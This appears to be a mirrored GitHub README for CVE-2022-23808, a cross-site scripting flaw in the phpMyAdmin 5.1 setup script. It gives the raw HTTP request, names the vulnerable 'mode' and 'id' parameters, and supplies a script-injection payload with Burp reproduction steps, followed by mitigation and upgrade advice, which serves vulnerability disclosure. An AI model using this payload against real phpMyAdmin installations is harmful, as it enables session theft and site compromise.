 # CVE-2022-23808

phpMyAdmin XSS 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/dipakpanchal456](https://github.com/dipakpanchal456) |
| Url      | [https://github.com/dipakpanchal456/CVE-2022-23808](https://github.com/dipakpanchal456/CVE-2022-23808)                                               |
| Stars    | 105                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* bugbounty* cross-site-scripting* database* exploit* exploitation* hacking* infosec* owasp* owasp-top-10* pentesting* phpmyadmin* poc* redteam* redteaming* vulnerability* xss* zeroday

</details>

## Readme

# phpMyAdmin Exploit

**Exploit Title :** phpMyAdmin 5.1.1 - XSS (Cross-site Scripting)                                                          
**Exploit Author :** [Dipak Panchal](https://twitter.com/DipakPanchal05) **([@th3.d1p4k](https://instagram.com/th3.d1p4k))**                 
**Vendor Homepage :** https://www.phpmyadmin.net                      
**Software Link :** https://www.phpmyadmin.net/files/5.1.1/                 
**Affected Versions :** phpMyAdmin versions of the 5.1 branch prior to 5.1.2 are affected.                
**Tested on :** Windows 10 and Linux    
**CVE :** [CVE-2022-23808](https://nvd.nist.gov/vuln/detail/CVE-2022-23808)       
**Reference :** https://www.phpmyadmin.net/security/PMASA-2022-2/         

### **Description:**
A series of weaknesses has been discovered that could allow an attacker to inject malicious code in to aspects of the setup script, which can allow XSS or HTML injection.

### **Request:**

```
GET /phpmyadmin/setup/index.php?page=servers&mode=test&id=test  HTTP/1.1      
Host: 127.0.0.1:1234       
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8      
Accept-Language: en-US,en;q=0.5     
Connection: close   
Cookie: pma_lang=en; phpMyAdmin=fs55xxxxxxx; pma_lang=en; pmaUser-1=xxxxxxxxxxxxxxxxxxxxxxxxxxx; phpMyAdmin=xxxxxxxxxxxxxxx; pmaAuth-1=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx           
Upgrade-Insecure-Requests: 1          
Cache-Control: max-age=0          
```

### **Vulnerable Parameter(s) :** 
* mode
* id

### **Payload :**
```
">'><script>alert(document.domain)</script>
```

### **Steps to reproduce :**

1. Capture above reuqest in burp.
2. Replace/Change XSS payload with vulnerable parameters.
3. Click on send and show response in browser.
4. You'll get popup!

## **Proof of Concept :**
![2022-01-26_21h45_23](https://user-images.githubusercontent.com/31427462/152356009-88cb5947-6abf-481f-9cc1-58c8cf4a6a12.png)


### **Mitigation :**
A phpMyAdmin installation with a configuration file config.inc.php will not allow access to the setup script, which in turn mitigates this attack.


### **Fix :**
Upgrade to phpMyAdmin 5.1.2 or newer or apply patch listed below.



## Get the content

```
git clone https://github.com/dipakpanchal456/CVE-2022-23808
cd CVE-2022-23808
```

{% embed url="https://github.com/dipakpanchal456/CVE-2022-23808" %}

<figure><img src="https://avatars.githubusercontent.com/u/31427462?v=4" alt=""><figcaption><p>dipakpanchal456</p></figcaption></figure>
